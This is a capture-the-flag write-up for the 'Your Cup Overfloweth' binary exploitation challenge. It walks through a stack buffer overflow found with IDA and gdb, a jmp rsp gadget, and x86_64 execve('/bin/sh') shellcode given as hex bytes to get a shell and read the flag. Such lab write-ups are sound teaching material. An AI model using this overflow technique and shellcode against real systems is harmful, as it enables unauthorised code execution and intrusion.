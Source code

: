 # Your Cup Overfloweth

## Challenge
* Category: Binary Exploitation
* Points: 75

Your cup overfloweth. Drink up. Challenge Binary: cup. Listening on challenge.acictf.com:28950

### Hints
* Your cup (the stack) is executable.
* Your cup will bounce when it hits the floor in the right spot (gadget).
* Try not to spill any crumbs (newlines) into your cup.


## Solution

### Tools
* Hex-Rays IDA Pro (Community Edition)
* gdb
* Hexeditor
* ROPGaget

### Walkthrough
* The first step is to run the program. Since it's an elf file (linux executable) this has to be done in Linux. Kali Linux is as good of a choice as any.
* After playing around with it for a little bit I then ran it in gdb. `gdb cup`
* I quickly realized the program continued to time out, so then I decided to take a look at it in IDA Pro. To do this just open up IDA Pro and at address `0x4008E1` there is a system call to `alarm` which shuts down the program after 60 seconds. 
![alarm](alert.jpg)
* To give my self some more time to examine the binary I patched it by overwriting `0x4008E1` with `0x90909090` which is just 4 NOP instructions. 
* At this point there are two different approaches, examine the binary in IDA (static analysis) or to feed random input to the program (fuzzing). I decided to go with a little bit of static analysis to find a good starting point. I didn't see anything too interesting in the `main` function but then I saw the `read_line` function. This is used to get the type of cup will be used in the program.  
![read_line](read_line.png)
* One can see that a area on the stack is created that is 0x18 hex in size, and is named buf. 
`.text:000000000040082D 48 83 EC 20               sub     rsp, 20h`
* There is also the function called `read`, and one can see that it takes in 3 values. The interesting one is the buf variable.
```
.text:0000000000400835 48 8B 45 E8                mov     rax, [rbp+buf]
.text:0000000000400839 BA 01 00 00 00             mov     edx, 1          ; nbytes
.text:000000000040083E 48 89 C6                   mov     rsi, rax        ; buf
.text:0000000000400841 BF 00 00 00 00             mov     edi, 0          ; fd
.text:0000000000400846 E8 95 FE FF FF             call    _read
```
* This shows that the buf variable is moved to `rax` and then `rsi` which is used for the buffer. However, the variable only takes in one byte at a time. So this alone won't overflow the stack. But later in the instructions there is a check to make sure the byte was read. Then the byte is compare to `0x0A` which is the hex representation of a new line or the enter key. If it sees this it will leave the read line function. However, if not, it moves the adds one to the buffer address and then jumps to read the next byte. 
```
.text:0000000000400851 48 8B 45 E8                mov     rax, [rbp+buf]         ; get the buffer address
.text:0000000000400855 0F B6 00                   movzx   eax, byte ptr [rax]    ; read the value at the buffer address
.text:0000000000400858 3C 0A                      cmp     al, 0Ah                ; compare the value to a new line
.text:000000000040085A 74 0A                      jz      short loc_400866       ; if there is a new line jump to end of the function
.text:000000000040085C 48 83 45 E8 01             add     [rbp+buf], 1           ; increase the address location by 1
.text:0000000000400861 EB D2                      jmp     short loc_400835       ; jump to read next byte
```
* It should be very clear that if we read in more than 20 (0x18 )bytes you'll start writing over areas of the stack that you shouldn't.  
* I then added a lot more than 20 bytes of input to see what would happen.
![crash1](crash1.png)
* We see the message `Program received signal SIGSEGV, Segmentation fault.` which is great for binary exploitation. The other great thing that we saw is that `rbp` is `0x3131313131313131`. This is also great news because we can control a register. 
* After some trial and error I discovered that a string of 105 characters plus the enter key gets us different errors and looking at the address at the crash start. Then I looked. For example `print("1"*105 + "A")` will jump to the address `0x00007ffff7e10041`. As you can see the last 2 bytes `0x0041` is the null byte, a string terminator, and `0x41` which is just A.  Keep in mind x86 uses little endian architecture therefore the bytes are in reverse order. 
* Now we need to know where to jump to, ideally straight to the stack, but we don't have control of `rip`. However if we could jump to the stack that would work. This is where a ROP chain may come in handy. To run this simply type `ROPgadget --ropchain --binary cup`. 
* Taking a look at the output you can find `0x0000000000400827 : jmp rsp`. `rsp` is the location of the stack, therefore this will work perfectly. We will just jump there which will then jump to the stack. To get there we need to feed `0x27 0x08 0x40 0x00 0x00 0x00 0x00 0x00` into the program. Since these are not real ascii characters we will use python to print the 105 characters and the 8 non ascii characters. I printed them to a file, but you could also print them directly to to stdin. 
* Next we will need to get some shell code in there too. You can use metasploit, or do a search for x86_64 shellcode. Basically all you need is a system call to `exec()` and feed it the argument `/bin/sh`. For me it looked like: 
`0x6A 0x42 0x58 0xFE 0xC4 0x48 0x99 0x52 0x48 0xBF 0x2F 0x62 0x69 0x6E 0x2F 0x2F 0x73 0x68 0x57 0x54 0x5E 0x49 0x89 0xD0 0x49 0x89 0xD2 0x0F 0x05 0x0A`
* At first I was trying to run the code like `./cup < shellcode.txt`. But that wasn't working. I then discovered you can run `cat shellcode.txt - | ./cup` and the connection doesn't close. This gets you shell access, but there won't be any indicator that it works, but just run linux commands like `ls`. This will show you the flag.txt file. All you need to do then is `cat flag.txt`. 
